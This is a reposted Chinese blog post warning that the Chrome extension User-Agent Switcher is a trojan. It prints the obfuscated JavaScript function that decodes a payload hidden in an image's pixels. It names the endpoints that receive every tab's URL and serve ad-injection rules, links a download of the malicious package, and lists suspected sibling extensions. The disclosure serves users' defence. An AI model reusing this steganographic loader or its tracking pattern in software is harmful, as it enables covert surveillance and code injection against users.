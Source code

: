 ```yaml
---
title: 懵逼！Chrome 的插件 User-Agent Switcher 是个木马
date: 2017-09-28 15:25
tags: 随笔
categories: 我的地盘
permalink: 2493
---
```


![user-agent-switcher-fore-google-chrome1](https://cdn.uu126.cn/201709/user-agent-switcher-fore-google-chrome1.jpg)


<!--more-->


Chrome 商店搜索 User-Agent Switcher,排第一的这个插件(45 万用户),是一个木马...
[官方地址](https://chrome.google.com/webstore/detail/user-agent-switcher-for-g/ffhkkpnppgnfaobgihpdblnhmmbodake)
无法访问？
这里有一个压缩包：链接: https://pan.baidu.com/s/1nvBRemH 密码: 4inq

![user-agent-switcher-fore-google-chrome](https://cdn.uu126.cn/201709/user-agent-switcher-fore-google-chrome.jpg)

为了绕过 chrome 的审核策略,他把恶意代码隐藏在了` promo.jpg `里，` background.js `的第 80 行,从这个图片里解密出恶意代码并执行
```
t.prototype.Vh = function(t, e) {
            if ("" === '../promo.jpg') return "";
            void 0 === t && (t = '../promo.jpg'), t.length && (t = r.Wk(t)), e = e || {};
            var n = this.ET,
                i = e.mp || n.mp,
                o = e.Tv || n.Tv,
                h = e.At || n.At,
                a = r.Yb(Math.pow(2, i)),
                f = (e.WC || n.WC, e.TY || n.TY),
                u = document.createElement("canvas"),
                p = u.getContext("2d");
            if (u.style.display = "none", u.width = e.width || t.width, u.height = e.width || t.height, 0 === u.width || 0 === u.height) return "";
            e.height && e.width ? p.drawImage(t, 0, 0, e.width, e.height) : p.drawImage(t, 0, 0);
            var c = p.getImageData(0, 0, u.width, u.height),
                d = c.data,
                g = [];
            if (c.data.every(function(t) {
                    return 0 === t
                })) return "";
            var m, s;
            if (1 === o)
                for (m = 3, s = !1; !s && m < d.length && !s; m += 4) s = f(d, m, o), s || g.push(d[m] - (255 - a + 1));
            var v = "",
                w = 0,
                y = 0,
                l = Math.pow(2, h) - 1;
            for (m = 0; m < g.length; m += 1) w += g[m] << y, y += i, y >= h && (v += String.fromCharCode(w & l), y %= h, w = g[m] >> i - y);
            return v.length < 13 ? "" : (0 !== w && (v += String.fromCharCode(w & l)), v)
        }
```
会把你打开的每个 tab 的 url 等信息加密发送到 https://uaswitcher.org/logic/page/data
另外还会从 http://api.data-monitor.info/api/bhrule?sub=116 获取推广链接的规则,打开符合规则的网站时,会在页面插入广告甚至恶意代码.
根据 threatbook 上的信息( https://x.threatbook.cn/domain/api.data-monitor.info ),我估计下面的几个插件都是这个作者的作品..

https://chrome.google.com/webstore/detail/nenhancer/ijanohecbcpdgnpiabdfehfjgcapepbm

https://chrome.google.com/webstore/detail/allow-copy/abidndjnodakeaicodfpgcnlkpppapah

https://chrome.google.com/webstore/detail/%D1%81%D0%BA%D0%B0%D1%87%D0%B0%D1%82%D1%8C-%D0%BC%D1%83%D0%B7%D1%8B%D0%BA%D1%83-%D0%B2%D0%BA%D0%BE%D0%BD%D1%82%D0%B0%D0%BA%D1%82%D0%B5/hanjiajgnonaobdlklncdjdmpbomlhoa

https://chrome.google.com/webstore/detail/aliexpress-radar/pfjibkklgpfcfdlhijfglamdnkjnpdeg

 有在用这个扩展的亲们，赶紧起床删了吧！

 

本文转载自：https://www.v2ex.com/t/389340